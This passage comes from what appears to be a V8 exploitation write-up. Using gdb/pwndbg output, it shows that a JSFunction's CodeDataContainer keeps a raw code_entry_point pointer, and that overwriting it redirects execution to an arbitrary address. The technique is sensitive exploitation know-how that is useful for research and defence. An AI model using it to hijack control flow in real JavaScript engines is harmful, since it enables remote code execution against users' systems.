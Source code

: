 We can print this object in gdb using the `job` command (provided the V8 config is in `.gdbinit`).
```
DebugPrint: 0x31df0004b9cd: [Function]
 - map: 0x31df00184241 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x31df001840f5 <JSFunction (sfi = 0x31df00145df5)>
 - elements: 0x31df00002259 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x31df00199f41 <SharedFunctionInfo foo>
 - name: 0x31df00199ea5 <String[3]: #foo>
 - builtin: CompileLazy
 - formal_parameter_count: 0
 - kind: ArrowFunction
 - context: 0x31df0019a015 <ScriptContext[3]>
 - code: 0x31df001467e5 <CodeDataContainer BUILTIN CompileLazy>
 - source code: () => {
  return;
}
...
```

There's a code entry point field stored at an offset of `0xc`, and sure enough it's an external address. Viewing the memory at this object's location it shows that this external pointer is stored in the object itself - it's not an index to the external pointer table.

This means we should be able to overwrite it and redirect code execution to an arbitrary address when this `foo` function is called.
```
pwndbg> job 0x31df001467e5
0x31df001467e5: [CodeDataContainer] in OldSpace
 - map: 0x31df00002a71 <Map[28](CODE_DATA_CONTAINER_TYPE)>
 - kind: BUILTIN
 - builtin: CompileLazy
 - is_off_heap_trampoline: 1
 - code: 0
 - code_entry_point: 0x55f3898c21c0
 - kind_specific_flags: 0
pwndbg> x/4gx 0x31df001467e5-1
0x31df001467e4:	0x000023e100002a71	0x898c21c000000000
0x31df001467f4:	0x00590032000055f3	0x00002a7100000000
pwndbg> x/gx 0x31df001467e5-1+0xc
0x31df001467f0:	0x000055f3898c21c0
```

Replacing the `code_entry_point` pointer with the value `0x6161616161616161` and continuing in gdb proves the above theory. We've managed to redirect code execution to an arbitrary address.
```
pwndbg> set *(int64_t *)(0x31df001467e5-1+0xc) = 0x6161616161616161
pwndbg> job 0x31df001467e5
0x31df001467e5: [CodeDataContainer] in OldSpace
 - map: 0x31df00002a71 <Map[28](CODE_DATA_CONTAINER_TYPE)>
 - kind: BUILTIN
 - builtin: CompileLazy
 - is_off_heap_trampoline: 1
 - code: 0
 - code_entry_point: 0x6161616161616161
 - kind_specific_flags: 0
pwndbg> c
...
 ► 0x55f3898b6c5f <Builtins_CallFunction_ReceiverIsAny+287> jmp rcx <0x6161616161616161>
```
